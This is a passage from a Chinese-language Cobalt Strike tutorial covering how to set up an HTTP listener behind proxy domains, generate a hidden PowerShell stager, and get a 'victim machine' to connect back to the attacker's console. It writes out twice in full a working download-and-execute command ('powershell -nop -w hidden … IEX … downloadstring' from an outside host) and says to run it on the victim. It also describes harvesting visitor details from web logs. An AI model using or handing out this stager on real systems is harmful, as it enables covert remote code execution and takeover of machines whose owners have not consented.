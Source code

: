 新建http监听80端口, 将代理的服务器域名填写至HTTP Hosts

<img src="Cobalt Strike的使用/image-20221001224449443.png" alt="image-20221001224449443" style="zoom:67%;" />	



生成Power Shell远程执行代码: `powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://proxy1.team.com:80/a'))"`

![动画](Cobalt Strike的使用/动画-16646361660073.gif)

​	

浏览器访问`http://proxy1.team.com:80/a`和`http://proxy2.team.com:80/a`, 查看是否有返回结果, 若有则表示攻击payload配置成功

![image-20221001230039340](Cobalt Strike的使用/image-20221001230039340.png)	



通过查看web日志可以查询到访问域名者的详细信息

![image-20221001230512699](Cobalt Strike的使用/image-20221001230512699.png)



### 2.受害机执行PowerShell恶意代码

在受害机执行powershell恶意代码: `powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://proxy1.team.com:80/a'))"`后, 受害机在CS客户端界面显示上线
